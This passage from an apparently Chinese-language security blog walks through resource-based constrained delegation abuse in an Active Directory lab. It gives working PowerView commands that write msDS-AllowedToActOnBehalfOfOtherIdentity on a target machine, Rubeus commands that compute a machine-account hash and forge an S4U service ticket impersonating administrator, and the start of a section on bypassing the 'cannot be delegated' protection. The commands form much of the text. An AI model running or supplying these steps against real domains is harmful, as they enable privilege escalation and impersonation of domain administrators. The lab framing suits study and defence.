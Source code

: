 [![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140659.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140659.png)

好的，我们添加了一个密码 hack，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity`属性的值 ，这个操作我们用 powerview 实现。

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"  
#这儿的sid是我们创建的#机器用户#evilsystem的sid
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN7| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140726.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140726.png)

至于机器账户 SID 怎么获得，powerview 下的 `get-domiancomputer hacksystem`  
然后使用`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity` 查看委派是否设置成功

`Set-DomainObject win7 -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose`此命令可以清除 msds-allowedtoactonbehalfofotheridentity 属性的值

现在都统统设置好了，开始下一步吧。  
网上一般用的 rubeus，这里我用 kekeo 吧

```
Rubeus.exe hash /user:xxx /password:xxx /domain:xxx
```

本地运算出机器用户 ntlm hash 这里借用一下别人的图

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140944.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140944.png)

`Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/dm2008 /ptt` 写入票据

然后我在本机使用以上方法后 klist 一下，发现确实存在票据

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140737.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217140737.png)

但是 dir \test1\c$ 时本机莫名其妙不能进行 kerberos 验证，我服了》。。但不管怎样，我们拿到银票了

#### 敏感用户不可委派的绕过

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141050.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141050.png)

若我们的 administrator 用户被设置为敏感用户不可委派或者被加入保护组，按理说他的访问就不能进行委派。

我们在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行 S4U2PROXY。我们用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/dm2008 /ptt`继续实验 administrator，发现确实是这样

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141131.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217141131.png)
